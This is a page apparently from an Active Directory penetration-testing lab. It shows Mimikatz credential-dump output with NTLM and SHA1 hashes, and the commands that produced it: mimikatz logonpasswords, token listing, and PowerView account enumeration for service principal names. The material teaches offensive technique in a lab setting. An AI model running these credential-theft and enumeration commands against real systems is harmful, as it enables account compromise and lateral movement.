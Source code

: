 ```powershell-session
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 1284140 (00000000:0013982c)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70647 (00000000:000113f7)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname
